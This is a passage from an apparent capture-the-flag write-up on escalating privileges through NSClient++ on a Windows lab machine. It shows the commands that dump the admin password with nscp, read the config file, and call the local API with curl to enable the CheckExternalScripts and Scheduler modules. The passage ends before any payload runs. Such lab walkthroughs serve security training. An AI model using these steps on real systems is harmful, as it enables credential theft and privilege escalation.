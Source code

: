 ```
16/01/2020  19:11    <DIR>          NSClient++                                 
08/04/2020  23:09    <DIR>          Reference Assemblies                       
08/04/2020  23:21    <DIR>          UNP                                        
14/01/2020  09:14    <DIR>          VMware                                     
08/04/2020  22:31    <DIR>          Windows Defender                           
08/04/2020  22:45    <DIR>          Windows Defender Advanced Threat Protection
19/03/2019  05:52    <DIR>          Windows Mail                               
19/03/2019  12:43    <DIR>          Windows Multimedia Platform                
19/03/2019  06:02    <DIR>          Windows NT                                 
19/03/2019  12:43    <DIR>          Windows Photo Viewer                       
19/03/2019  12:43    <DIR>          Windows Portable Devices                   
19/03/2019  05:52    <DIR>          Windows Security                           
19/03/2019  05:52    <DIR>          WindowsPowerShell                          
               0 File(s)              0 bytes                                  
              18 Dir(s)  27,870,027,776 bytes free
```
### Priv with NSClient++
Google `NSClient++` exploit and [this should come up early in your results](https://www.exploit-db.com/exploits/46802).
  
  
Let's follow the steps accordingly - first, we grab the web administrator's password with `nscp.exe`:
```
nadine@SERVMON c:\Program Files\NSClient++>nscp web -- password --display
Current password: ew2x6SsGTxjRwXOT
```
Next, we need to login `NSClient++` at port 8443 and enable `CheckExternalScripts` and `Scheduler` - but if you tried to access port 8443, you'll see that you're denied access. This is because if you checked the configuration file `nsclient.ini`, you'll see that the server is configured to allow only localhost access:
```
nadine@SERVMON c:\Program Files\NSClient++>type nsclient.ini
´╗┐# If you want to fill this file with all available options run the following command:
#   nscp settings --generate --add-defaults --load-all
# If you want to activate a module and bring in all its options use:
#   nscp settings --activate-module <MODULE NAME> --add-defaults
# For details run: nscp settings --help


; in flight - TODO
[/settings/default]

; Undocumented key
password = ew2x6SsGTxjRwXOT

; Undocumented key
allowed hosts = 127.0.0.1
```
We could do port forwarding to overcome this, but for the first few steps we can save ourselves from the prolonged agony, by doing what we need to do from the box itself via [API and a bit of guesswork](https://docs.nsclient.org/api/):
```
curl -s -k -u admin:ew2x6SsGTxjRwXOT https://localhost:8443/api/v1/modules/CheckExternalScripts/commands/load
curl -s -k -u admin:ew2x6SsGTxjRwXOT https://localhost:8443/api/v1/modules/Scheduler/commands/load
```
```
nadine@SERVMON c:\Program Files\NSClient++>curl -s -k -u admin:ew2x6SsGTxjRwXOT https://localhost:8443/api/v1/modules/CheckExternalScrip
ts/commands/load
Success load CheckExternalScripts
nadine@SERVMON c:\Program Files\NSClient++>curl -s -k -u admin:ew2x6SsGTxjRwXOT https://localhost:8443/api/v1/modules/Scheduler/commands
/load
```